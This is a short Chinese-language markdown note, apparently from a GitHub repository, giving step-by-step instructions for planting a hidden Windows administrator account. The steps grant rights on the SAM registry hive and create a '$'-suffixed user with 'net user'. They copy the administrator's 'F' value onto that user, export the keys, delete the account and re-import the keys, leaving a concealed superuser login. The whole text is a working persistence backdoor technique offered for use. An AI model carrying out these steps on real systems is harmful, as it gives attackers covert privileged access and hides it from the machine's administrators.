 # windows 隐藏用户配置

1. `regedit` 进注册表编辑器，展开`HKEY_LOCAL_MACHINE`，展开`SAM`，在下一级`SAM`右键`权限`，添加当前用户用户，允许完全控制

2. `dos`中，用`net user 用户名$ 密码 /add` 命令，添加一个用户。（带`$`用户名，在`dos`用命令看不到）。

3. 重新打开注册表编辑器，发现`SAM`可以展开，依次展开，可以看见新建带`$`的用户名。()

4.对应 `msf$` 用户和**类型号**，将当前用户类型号对应文件夹下的`F`的二进制数值，替换为超级管理员用户的`F`二进制数值。

5. 将新建用户的注册表信息 `name` 和`类型号` 都导出。

6. 在dos中，用`net user 用户名$ /del` 删除带`$`用户。

7. 导入之前导出的两个注册表文件。

> 这个时候就可以 以超级用户隐藏登录了
